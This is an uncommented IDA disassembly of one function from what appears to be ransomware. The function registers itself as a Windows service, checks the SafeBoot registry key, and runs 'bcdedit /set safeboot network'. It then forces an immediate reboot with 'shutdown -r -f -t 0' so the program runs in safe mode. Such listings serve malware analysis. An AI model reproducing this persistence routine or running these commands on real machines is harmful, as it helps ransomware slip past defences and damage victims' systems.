 .text:001DC5A0 sub_1DC5A0 proc near                    ; CODE XREF: _main:loc_1EDB95↓p
.text:001DC5A0
.text:001DC5A0 ServiceStartTable= SERVICE_TABLE_ENTRYW ptr -40h
.text:001DC5A0 var_38= dword ptr -38h
.text:001DC5A0 var_34= dword ptr -34h
.text:001DC5A0 var_30= dword ptr -30h
.text:001DC5A0 phkResult= dword ptr -2Ch
.text:001DC5A0 var_28= dword ptr -28h
.text:001DC5A0 var_10= dword ptr -10h
.text:001DC5A0 var_C= byte ptr -0Ch
.text:001DC5A0 var_4= dword ptr -4
.text:001DC5A0 arg_4= dword ptr  0Ch
.text:001DC5A0
.text:001DC5A0 ; FUNCTION CHUNK AT .text:00231DB0 SIZE 00000028 BYTES
.text:001DC5A0 ; FUNCTION CHUNK AT .text:00231DDD SIZE 00000027 BYTES
.text:001DC5A0
.text:001DC5A0 ; __unwind { // SEH_40C5A0
.text:001DC5A0 push    ebp
.text:001DC5A1 mov     ebp, esp
.text:001DC5A3 push    0FFFFFFFFh
.text:001DC5A5 push    offset SEH_40C5A0
.text:001DC5AA mov     eax, large fs:0
.text:001DC5B0 push    eax
.text:001DC5B1 sub     esp, 34h
.text:001DC5B4 mov     eax, ___security_cookie
.text:001DC5B9 xor     eax, ebp
.text:001DC5BB mov     [ebp+var_10], eax
.text:001DC5BE push    esi
.text:001DC5BF push    edi
.text:001DC5C0 push    eax
.text:001DC5C1 lea     eax, [ebp+var_C]
.text:001DC5C4 mov     large fs:0, eax
.text:001DC5CA push    offset aEncryption              ; "ENCRYPTION"
.text:001DC5CF push    offset unk_259670
.text:001DC5D4 call    sub_1D26D0
.text:001DC5D9 mov     esi, eax
.text:001DC5DB add     esp, 8
.text:001DC5DE mov     ecx, [esi]
.text:001DC5E0 push    0Ah
.text:001DC5E2 mov     ecx, [ecx+4]
.text:001DC5E5 add     ecx, esi
.text:001DC5E7 call    sub_1ED330
.text:001DC5EC movzx   ecx, al
.text:001DC5EF push    ecx
.text:001DC5F0 mov     ecx, esi
.text:001DC5F2 call    sub_1EAB20
.text:001DC5F7 mov     ecx, esi
.text:001DC5F9 call    sub_1E76E0
.text:001DC5FE cmp     dword_257290, 8
.text:001DC605 mov     eax, offset lpServiceName
.text:001DC60A mov     [ebp+ServiceStartTable.lpServiceProc], offset sub_1DFE80
.text:001DC611 cmovnb  eax, lpServiceName
.text:001DC618 mov     [ebp+ServiceStartTable.lpServiceName], eax
.text:001DC61B lea     eax, [ebp+ServiceStartTable]
.text:001DC61E push    eax                             ; lpServiceStartTable
.text:001DC61F mov     [ebp+var_38], 0
.text:001DC626 mov     [ebp+var_34], 0
.text:001DC62D call    ds:StartServiceCtrlDispatcherW
.text:001DC633 test    eax, eax
.text:001DC635 jnz     loc_1DC8B0
.text:001DC63B push    0F003Fh                         ; dwDesiredAccess
.text:001DC640 push    eax                             ; lpDatabaseName
.text:001DC641 push    eax                             ; lpMachineName
.text:001DC642 call    ds:OpenSCManagerW
.text:001DC648 mov     esi, eax
.text:001DC64A test    esi, esi
.text:001DC64C jnz     short loc_1DC69E
.text:001DC64E mov     esi, ds:GetLastError
.text:001DC654 call    esi ; GetLastError
.text:001DC656 cmp     eax, 5
.text:001DC659 jnz     short loc_1DC66F
.text:001DC65B push    offset aPleaseRunProgr          ; "Please run program as admin"
.text:001DC660 push    offset unk_259670
.text:001DC665 call    sub_1D26D0
.text:001DC66A add     esp, 8
.text:001DC66D jmp     short loc_1DC68B
.text:001DC66F ; ---------------------------------------------------------------------------
.text:001DC66F
.text:001DC66F loc_1DC66F:                             ; CODE XREF: sub_1DC5A0+B9↑j
.text:001DC66F call    esi ; GetLastError
.text:001DC671 push    eax
.text:001DC672 push    offset aCantOpenScmMan          ; "Cant open scm manager: "
.text:001DC677 push    offset unk_259670               ; int
.text:001DC67C call    sub_1D26D0
.text:001DC681 add     esp, 8
.text:001DC684 mov     ecx, eax
.text:001DC686 call    sub_1DA700
.text:001DC68B
.text:001DC68B loc_1DC68B:                             ; CODE XREF: sub_1DC5A0+CD↑j
.text:001DC68B push    offset sub_1D4910
.text:001DC690 mov     ecx, eax
.text:001DC692 call    sub_1DA8D0
.text:001DC697 push    0                               ; FileName
.text:001DC699 call    __loaddll
.text:001DC69E
.text:001DC69E loc_1DC69E:                             ; CODE XREF: sub_1DC5A0+AC↑j
.text:001DC69E call    sub_1DF650
.text:001DC6A3 sub     esp, 18h
.text:001DC6A6 mov     ecx, esp
.text:001DC6A8 mov     [ebp+phkResult], esp
.text:001DC6AB push    offset xmmword_2571D4           ; int
.text:001DC6B0 call    sub_1D6BD0
.text:001DC6B5 ;   try {
.text:001DC6B5 mov     [ebp+var_4], 0
.text:001DC6BC sub     esp, 18h
.text:001DC6BF mov     ecx, esp
.text:001DC6C1 mov     [ebp+var_30], esp
.text:001DC6C4 push    offset lpServiceName            ; Src
.text:001DC6C9 call    sub_1D6BD0
.text:001DC6C9 ;   } // starts at 1DC6B5
.text:001DC6CE ;   try {
.text:001DC6CE mov     byte ptr [ebp+var_4], 1
.text:001DC6D2 push    esi                             ; hSCManager
.text:001DC6D2 ;   } // starts at 1DC6CE
.text:001DC6D3 mov     [ebp+var_4], 0FFFFFFFFh
.text:001DC6DA call    sub_1DC8E0
.text:001DC6DF add     esp, 34h
.text:001DC6E2 test    eax, eax
.text:001DC6E4 jz      loc_1DC87D
.text:001DC6EA push    43h ; 'C'                       ; nIndex
.text:001DC6EC call    ds:GetSystemMetrics
.text:001DC6F2 mov     edi, eax
.text:001DC6F4 push    edi
.text:001DC6F5 push    offset aBootOption              ; "Boot option: "
.text:001DC6FA push    offset unk_259670
.text:001DC6FF call    sub_1D26D0
.text:001DC704 add     esp, 8
.text:001DC707 mov     ecx, eax
.text:001DC709 call    sub_1DA530
.text:001DC70E mov     esi, eax
.text:001DC710 push    0Ah
.text:001DC712 mov     ecx, [esi]
.text:001DC714 mov     ecx, [ecx+4]
.text:001DC717 add     ecx, esi
.text:001DC719 call    sub_1ED330
.text:001DC71E movzx   ecx, al
.text:001DC721 push    ecx
.text:001DC722 mov     ecx, esi
.text:001DC724 call    sub_1EAB20
.text:001DC729 mov     ecx, esi
.text:001DC72B call    sub_1E76E0
.text:001DC730 test    edi, edi
.text:001DC732 jnz     loc_1DC858
.text:001DC738 lea     eax, [ebp+phkResult]
.text:001DC73B push    eax                             ; int
.text:001DC73C push    103h                            ; int
.text:001DC741 push    edi                             ; int
.text:001DC742 push    offset SubKey                   ; "SYSTEM\\CurrentControlSet\\Control\\Saf"...
.text:001DC747 push    80000002h                       ; int
.text:001DC74C call    ds:RegOpenKeyExW
.text:001DC752 test    eax, eax
.text:001DC754 jnz     loc_1DC843
.text:001DC75A sub     esp, 18h
.text:001DC75D mov     ecx, esp
.text:001DC75F mov     [ebp+var_30], esp
.text:001DC762 push    offset lpServiceName            ; Src
.text:001DC767 call    sub_1D6BD0
.text:001DC76C ;   try {
.text:001DC76C mov     [ebp+var_4], 2
.text:001DC773 push    [ebp+phkResult]                 ; hKey
.text:001DC773 ;   } // starts at 1DC76C
.text:001DC776 mov     [ebp+var_4], 0FFFFFFFFh
.text:001DC77D call    sub_1DCEE0
.text:001DC782 add     esp, 1Ch
.text:001DC785 test    al, al
.text:001DC787 jz      loc_1DC81E
.text:001DC78D push    offset aBcdeditSetSafe          ; "bcdedit /set safeboot network"
.text:001DC792 call    sub_20DC04
.text:001DC797 push    offset aCWindowsSystem          ; "C:\\Windows\\System32\\bcdedit.exe /set"...
.text:001DC79C call    sub_20DC04
.text:001DC7A1 push    offset aCWindowsSysnat          ; "C:\\Windows\\SysNative\\bcdedit.exe /se"...
.text:001DC7A6 call    sub_20DC04
.text:001DC7AB lea     eax, [ebp+var_28]
.text:001DC7AE push    eax                             ; int
.text:001DC7AF call    sub_1DFCB0
.text:001DC7B4 add     esp, 10h
.text:001DC7B7 ;   try {
.text:001DC7B7 mov     [ebp+var_4], 3
.text:001DC7BE mov     ecx, offset unk_257294
.text:001DC7C3 push    eax                             ; int
.text:001DC7C4 call    sub_1DA440
.text:001DC7C4 ;   } // starts at 1DC7B7
.text:001DC7C9 mov     [ebp+var_4], 0FFFFFFFFh
.text:001DC7D0 lea     ecx, [ebp+var_28]               ; void *
.text:001DC7D3 call    sub_1D9620
.text:001DC7D8 sub     esp, 18h
.text:001DC7DB mov     ecx, esp
.text:001DC7DD mov     [ebp+var_30], esp
.text:001DC7E0 push    offset unk_257294               ; Src
.text:001DC7E5 call    sub_1D6BD0
.text:001DC7EA ;   try {
.text:001DC7EA mov     [ebp+var_4], 4
.text:001DC7EA ;   } // starts at 1DC7EA
.text:001DC7F1 mov     [ebp+var_4], 0FFFFFFFFh
.text:001DC7F8 call    sub_1E0280
.text:001DC7FD add     esp, 18h
.text:001DC800 push    edi                             ; nShowCmd
.text:001DC801 push    edi                             ; lpDirectory
.text:001DC802 push    offset Parameters               ; "/C shutdown -r -f -t 0"
.text:001DC807 push    offset File                     ; "cmd.exe"
.text:001DC80C push    offset Operation                ; "open"
.text:001DC811 push    edi                             ; hwnd
.text:001DC812 call    ds:ShellExecuteA
.text:001DC818 push    edi                             ; FileName
.text:001DC819 call    __loaddll
.text:001DC81E
.text:001DC81E loc_1DC81E:                             ; CODE XREF: sub_1DC5A0+1E7↑j
.text:001DC81E push    offset sub_1D4910
.text:001DC823 push    offset aErrorWhileAddi          ; "Error while adding service to autostart"
.text:001DC828 push    offset unk_259670
.text:001DC82D call    sub_1D26D0
.text:001DC832 add     esp, 8
.text:001DC835 mov     ecx, eax
.text:001DC837 call    sub_1DA8D0
.text:001DC83C push    0                               ; FileName
.text:001DC83E call    __loaddll
.text:001DC843
.text:001DC843 loc_1DC843:                             ; CODE XREF: sub_1DC5A0+1B4↑j
.text:001DC843 push    2E0h
.text:001DC848 push    eax                             ; dwMessageId
.text:001DC849 call    sub_1DEA60
.text:001DC84E add     esp, 8
.text:001DC851 push    0                               ; FileName
.text:001DC853 call    __loaddll
.text:001DC858
.text:001DC858 loc_1DC858:                             ; CODE XREF: sub_1DC5A0+192↑j
.text:001DC858 push    offset sub_1D4910
.text:001DC85D push    offset aThisProgramNee          ; "This program need to be service"
.text:001DC862 push    offset unk_259670
.text:001DC867 call    sub_1D26D0
.text:001DC86C add     esp, 8
.text:001DC86F mov     ecx, eax
.text:001DC871 call    sub_1DA8D0
.text:001DC876 push    0                               ; FileName
.text:001DC878 call    __loaddll
.text:001DC87D
.text:001DC87D loc_1DC87D:                             ; CODE XREF: sub_1DC5A0+144↑j
.text:001DC87D push    offset sub_1D4910
.text:001DC882 call    ds:GetLastError
.text:001DC888 push    eax
.text:001DC889 push    offset aErrorWhileCrea          ; "Error while creating service: "
.text:001DC88E push    offset unk_259670
.text:001DC893 call    sub_1D26D0
.text:001DC898 add     esp, 8
.text:001DC89B mov     ecx, eax
.text:001DC89D call    sub_1DA700
.text:001DC8A2 mov     ecx, eax
.text:001DC8A4 call    sub_1DA8D0
.text:001DC8A9 push    0                               ; FileName
.text:001DC8AB call    __loaddll
.text:001DC8B0
.text:001DC8B0 loc_1DC8B0:                             ; CODE XREF: sub_1DC5A0+95↑j
.text:001DC8B0 push    offset sub_1D4910
.text:001DC8B5 push    offset aStartedAsServi          ; "started as service"
.text:001DC8BA push    offset unk_259670
.text:001DC8BF call    sub_1D26D0
.text:001DC8C4 add     esp, 8
.text:001DC8C7 mov     ecx, eax
.text:001DC8C9 call    sub_1DA8D0
.text:001DC8CE push    0                               ; FileName
.text:001DC8D0 call    __loaddll
.text:001DC8D0 ; } // starts at 1DC5A0
.text:001DC8D0 sub_1DC5A0 endp ; sp-analysis failed
.text:001DC8D0